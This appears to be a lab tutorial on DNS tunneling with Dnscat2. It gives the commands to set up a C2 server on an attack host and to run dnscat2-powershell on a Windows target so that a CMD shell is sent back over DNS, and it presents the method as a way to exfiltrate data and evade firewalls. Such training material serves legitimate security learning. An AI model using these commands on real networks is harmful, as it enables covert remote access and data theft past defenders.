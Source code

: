 ## DNS Tunneling with Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between 2 hosts. It uses an encrypted C2 channel and sends data inside TXT records. Usually any AD domain environments have their own DNS server, with Dnscat2 the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be extremely useful to evade firewalls. We can execute a server on our attack host and a client on a Windows machine.

### Setting Up & Using Dnscat2

#### Cloning Dnscat2 and Setting Up the Server
```shell-session
$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

#### Starting the Dnscat2 Server
```shell-session
$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

After running the server we will get a server key, which we will need to use with the client on the Windows machine, so it can authenticate and encrypt the data. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell). We can clone the project containing the client and transfer it to the target.

#### Cloning dnscat2-powershell to the Attack Host
```shell-session
$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

#### Importing dnscat2.ps1
```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

We can now establish a tunnel with the server running, we can send back a CMD shell session to our server.

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```

#### Confirming Session Establishment
```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```
